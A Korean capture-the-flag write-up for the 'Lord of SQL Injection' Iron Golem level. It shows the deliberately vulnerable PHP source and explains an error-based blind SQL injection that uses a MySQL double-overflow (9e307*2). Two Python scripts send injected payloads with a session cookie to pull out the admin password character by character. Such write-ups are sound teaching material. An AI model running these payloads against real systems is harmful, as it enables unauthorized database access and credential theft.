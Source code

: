# Lord of SQL Injection No.21 -Iron Golem
## 문제 출제 의도
Error Based SQL Injection의 이해 여부를 확인한다.
## 소스 코드 분석
+ 소스코드
~~~
    <?php
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
    if(preg_match('/sleep|benchmark/i', $_GET[pw])) exit("HeHe");
    $query = "select id from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(mysql_error()) exit(mysql_error());
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_iron_golem where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("iron_golem");
    highlight_file(__FILE__);
    ?>
~~~

+ 소스 코드 분석
    - 금지 문자, 문자열
        * GET 방식으로 받은 pw값에 'prob _ . ( )중 하나라도 있다면 "No Hack~_~"이 출력되고 문제 풀이에 실패한다.
        * GET방식으로 받은 pw값에 "sleep", "benchmark" 중 하나라도 있다면 "HeHe"가 출력되고 문제풀이에 실패한다.
    - 에러 출력
        ~~~
        if(mysql_error()) exit(mysql_error());
        ~~~
        * MySQL 쿼리 수행에 오류가 있으면 오류를 출력하고 문제 풀이에 실패한다. 
    - 풀이 성공 조건
        * 데이터베이스에서 받은 pw와 GET방식으로 전달받은 pw가 같아야 한다.
## 문제 해결
- Mysql 지수 연산 최대치 이용
    + MySQL에서는 e를 이용한 지수 연산이 가능하다.
    ~~~
    >>> 9e0
    9.0
    >>> 9e1
    90.0
    >>>9e10
    90000000000.0
    ~~~
    + 지수 연산의 최대치는 9e307이다.
    + 9e308부터는 ERROR 1367 (22007): Illegal double '9e308' value found during parsing 와 같이 에러가 난다.
    + 이를 이용하여 9e307*2등을 이용해 에러를 유도 할 수 있다.
- pw 길이
    + 다음의 코드를 이용하여 pw의 길이를 구할 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    key = ""
    i=1
    pwlen = 0

    while i :
        url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
        data = "' or id='admin' and if((length(pw)='{}'),9e307*2,0)#".format(str(i))
        print(data)
        
        data = quote(data)
        re = urllib.request.Request(url + data)
        re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
        re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

        response = urllib.request.urlopen(re)

        if str(response.read()).find("DOUBLE value is out of range") != -1:
            pwlen = i
            print('pw length : ' + str(pwlen))
            break   
        i+=1    
    ~~~
    + 위 코드를 실행하면 pw=16이 출력된다.
- pw 값
    + if문
        * if 문은 다음과 같은 형식을 취한다.
        ~~~
        if(값,참일때,거짓일때)
        ~~~
    + pw 의 값은 다음과 같은 코드를 이용해 알아내면 편리하다.
    ~~~
    import urllib.request
    from urllib.parse import quote

    for i in range(1, pwlen + 1):
        for j in range(32, 127):
            url = "http://los.eagle-jump.org/iron_golem_d54668ae66cb6f43e92468775b1d1e38.php?pw="
            data = "' or id='admin' and if((substr(pw, 1, {})='{}'),9e307*2,0)#".format(str(i), key + chr(j))
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36")
            re.add_header("Cookie", "PHPSESSID=4csf3od9cfat47akhjak8okpi6")

            req = urllib.request.urlopen(re)

            if str(req.read()).find("DOUBLE value is out of range") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    + 이를 실행하면 pw=!!!!이 출력된다.
    + !!!!을 pw에 GET방식으로 입력하면 문제 풀이에 성공한다.